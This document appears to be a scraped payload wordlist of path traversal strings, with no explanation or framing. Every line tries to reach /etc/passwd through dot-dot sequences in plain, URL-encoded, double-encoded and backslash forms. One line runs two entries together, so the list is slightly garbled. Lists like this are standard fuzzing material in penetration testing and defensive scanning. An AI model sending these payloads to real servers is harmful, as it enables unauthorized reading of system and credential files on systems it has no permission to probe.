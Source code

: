 %252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e//etc/passwd
%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e//etc/passwd
%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e//etc/passwd
%252e%252e%252f/etc/passwd
%252e%252e%252f%252e%252e%252f/etc/passwd
%252e%252e%252f%252e%252e%252f%252e%252e%252f/etc/passwd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f/etc/passwd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f/etc/passwd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f/etc/passwd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f/etc/passwd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f/etc/passwd
..\/etc/passwd
..\..\/etc/passwd
..\..\..\/etc/passwd
..\..\..\..\/etc/passwd
..\..\..\..\..\/etc/passwd
..\..\..\..\..\..\/etc/passwd
..\..\..\..\..\..\..\/etc/passwd
..\..\..\..\..\..\..\..\/etc/passwd
..%255c/etc/passwd
..%255c..%255c/etc/passwd
..%255c..%255c..%255c/etc/passwd
..%255c..%255c..%255c..%255c/etc/passwd
..%255c..%255c..%255c..%255c..%255c/etc/passwd
..%255c..%255c..%255c..%255c..%255c..%255c/etc/passwd
..%255c..%255c..%255c..%255c..%255c..%255c..%255c/etc/passwd
..%255c..%255c..%255c..%255c..%255c..%255c..%255c..%255c/etc/passwd
%252e%252e\/etc/passwd
%252e%252e\%252e%252e\/etc/passwd..%5c/etc/passwd
..%5c..%5c/etc/passwd
..%5c..%5c..%5c/etc/passwd
..%5c..%5c..%5c..%5c/etc/passwd
..%5c..%5c..%5c..%5c..%5c/etc/passwd
..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
%2e%2e\/etc/passwd
%2e%2e\%2e%2e\/etc/passwd
%2e%2e\%2e%2e\%2e%2e\/etc/passwd
%2e%2e\%2e%2e\%2e%2e\%2e%2e\/etc/passwd
%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\/etc/passwd
%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\/etc/passwd
%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\/etc/passwd
%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\/etc/passwd
%2e%2e%5c/etc/passwd
%2e%2e%5c%2e%2e%5c/etc/passwd
%2e%2e%5c%2e%2e%5c%2e%2e%5c/etc/passwd
%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c/etc/passwd
%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c/etc/passwd
%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c/etc/passwd
%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c/etc/passwd
%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c/etc/passwd
%252e%252e\%252e%252e\%252e%252e\/etc/passwd
%252e%252e\%252e%252e\%252e%252e\%252e%252e\/etc/passwd
%252e%252e\%252e%252e\%252e%252e\%252e%252e\%252e%252e\/etc/passwd
%252e%252e\%252e%252e\%252e%252e\%252e%252e\%252e%252e\%252e%252e\/etc/passwd
%252e%252e\%252e%252e\%252e%252e\%252e%252e\%252e%252e\%252e%252e\%252e%252e\/etc/passwd
%252e%252e\%252e%252e\%252e%252e\%252e%252e\%252e%252e\%252e%252e\%252e%252e\%252e%252e\/etc/passwd
%252e%252e%255c/etc/passwd
%252e%252e%255c%252e%252e%255c/etc/passwd
%252e%252e%255c%252e%252e%255c%252e%252e%255c/etc/passwd